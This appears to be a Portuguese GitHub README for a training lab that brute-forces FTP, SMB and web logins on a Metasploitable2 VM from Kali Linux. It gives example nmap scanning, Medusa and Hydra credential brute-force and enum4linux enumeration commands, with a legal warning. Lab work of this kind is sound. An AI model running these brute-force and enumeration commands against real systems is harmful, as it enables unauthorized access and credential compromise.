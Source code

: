# Medusa-kali-metasp
Laboratório: ataque de brute-force com Medusa(Kali + Metasploitable2)
# Simulação de Ataques de Força Bruta com Kali + Medusa

**Ambiente:** VirtualBox — Kali Linux (atacante) e Metasploitable2 (alvo) em rede host-only  

## Resumo
Laboratório prático simulando ataques de força bruta em serviços comuns (FTP, SMB, Web) usando Kali Linux e **Medusa**. O objetivo é aprender técnicas de auditoria controlada, documentar as ações e propor mitigações.

> **Aviso legal:** Todos os testes foram executados em VMs isoladas e controladas (metasploitable). Não execute ataques contra sistemas sem autorização.

## Arquitetura do laboratório
- VirtualBox:
  - Kali Linux (atacante)
  - Metasploitable2 (alvo)
- Rede: Host-only (isolada do resto da rede)
- Fazer snapshot das VMs antes de começar

## Ferramentas utilizadas
- Kali Linux
- Nmap
- Medusa (brute-force)
- Hydra (alternativa)
- enum4linux
- nc / ftp (testes manuais)
- fsck / mount (recuperação de filesystem)

## Wordlists incluídas
- `users.txt` — lista de usuários de teste
- `pass.txt` — lista de senhas de teste

(As wordlists são intencionais e simples para fins didáticos.)

## Comandos executados (exemplos)
```bash
# Reconhecimento e descoberta
nmap -sV -p 21,22,80,139,445 192.168.56.101 -oN nmap_scan.txt

# Teste manual de FTP
ftp 192.168.56.101
# ou
nc 192.168.56.101 21

# Medusa - brute force FTP (arquivo de usuários e senhas)
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M ftp -t 6 > medusa_out.txt

# Hydra (alternativa)
hydra -L users.txt -P pass.txt ftp://192.168.56.101 -t 6

# Enumeração SMB
enum4linux -a 192.168.56.101 > enum4linux_out.txt

# Caso de erro de filesystem (no alvo) — exemplo de recuperação (em modo manutenção):
fsck -f /dev/mapper/metasploitable-root

